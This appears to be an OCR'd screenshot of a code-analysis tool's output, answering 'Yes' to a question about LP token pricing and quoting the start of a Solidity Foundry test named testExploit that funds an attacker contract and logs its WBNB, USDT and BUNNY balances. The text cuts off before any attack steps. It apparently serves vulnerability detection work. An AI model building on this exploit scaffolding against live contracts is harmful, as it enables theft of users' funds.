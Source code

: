 ╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Yes                                                                                                                                                                                                                                                   │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                          │
│ Code:                                                                                                                                                                                                                                                 │
│     function testExploit() public {                                                                                                                                                                                                                   │
│         payable(WBNB).call{value: 1e18}("");                                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial WBNB balance of attacker:",                                                                                                                                                                                                      │
│             IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial USDT balance of attacker:",                                                                                                                                                                                                      │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial BUNNY balance of attacker:",                                                                                                                                                                                                     │